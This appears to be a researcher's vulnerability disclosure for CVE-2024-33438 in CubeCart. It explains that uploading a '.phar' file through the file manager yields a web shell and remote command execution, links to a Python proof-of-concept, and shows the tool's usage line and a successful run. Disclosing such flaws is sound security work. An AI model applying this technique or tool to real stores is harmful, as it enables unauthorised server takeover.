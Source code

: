 ```yaml
---
layout: default
---
```


# CubeCart < 6.5.5 - Authenticated File Upload May Lead To RCE (CVE-2024-33438)

## TL;DR

Although the application prevents most PHP extensions (e.g. `.php`, `.php4`, `.php5`, `.phtml`, etc) from being uploaded to the web server, the `.phar` extension is not blocked. An authenticated user with “edit” permissions to CubeCart’s file manager can upload a web shell via File Manager > Images and execute commands remotely.

## Automated Exploit

I wrote an exploit in Python that automates the whole process of uploading a file and executing a command. You can download it <a href="https://github.com/julio-cfa/CVE-2024-33438">here</a>.

This is the usage of the PoC:

```
Usage: python3 CubeCartCVE.py <URL> <username> <password> <command>
```

After running it, this is the expected output for a successful exploitation:

```
python3 CubeCartCVE.py http://localhost/admin_0Kqnr9.php admin 123456 whoami

     []  ,----.___
   __||_/___      '.
  / O||    /|
 /   ""   / /
/________/ /   launching exploit
|________|/    please wait...

[+] Trying to log into the application...
[+] Successful login. Uploading a simple web shell to the server...
[+] Executing command...

Output: www-data
```

## References

[https://github.com/julio-cfa/CVE-2024-33438/](https://github.com/julio-cfa/CVE-2024-33438/)<br>
[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-33438](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-33438)
